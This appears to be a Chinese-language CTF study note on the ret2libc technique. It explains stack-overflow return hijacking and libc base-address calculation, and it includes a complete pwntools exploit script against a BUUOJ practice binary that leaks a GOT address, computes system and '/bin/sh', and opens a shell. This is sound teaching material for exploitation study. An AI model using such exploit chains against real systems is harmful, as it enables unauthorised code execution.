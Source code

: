 64位程序利用syscall来进行系统调用read函数写入"/bin/sh"，也可以直接使用已有的read函数

利用execve系统函数进行调用，设置rax=0x3b

```python

```

# ret2libc

## 原理

利用栈溢出漏洞，劫持返回地址，利用程序已链接库中的函数，来进行取shell不需要注入自定义的 shellcode 或者系统调用指令。需要了解libc和延迟绑定，了解ELF执行后，第一次调用函数，会实现一个延迟绑定当函数没system和"/bin/sh"时，就需要调用libc里面的，首先**找到libc的基地址**，通过已知函数的地址，输出在libc中的地址，来计算基地址

```shell
#需要Libcsearcher库
git clone https://github.com/lieanu/LibcSearcher.git
sudo python set-up.py develop
rm -rf Libc-database
git clone https://github.com/niklasb/libc-database.git
./get ubuntu debain
```



## 32位

```python
from pwn import *
from LibcSearcher import *
context(os='linux',arch='i386',log_level='debug')
p=remote('node5.buuoj.cn',29779)
#p=process('./2018_rop')
elf=ELF('./2018_rop')

main=elf.sym['main']
write_plt=elf.plt['write']
write_got=elf.got['write']

payload1=flat(cyclic(0x8c),p32(write_plt),p32(main),p32(1),p32(write_got),p32(4))
p.sendline(payload1)
write_addr=u32(p.recv(4))
print(hex(write_addr))

libc=LibcSearcher('write',write_addr)
base=write_addr-libc.dump('write')
system_addr=base+libc.dump('system')
bin_sh=base+libc.dump('str_bin_sh')
print(hex(system_addr))
print(hex(bin_sh))

payload2=flat(cyclic(0x8c),p32(system_addr),p32(1),p32(bin_sh))
p.sendline(payload2)
p.interactive()
```
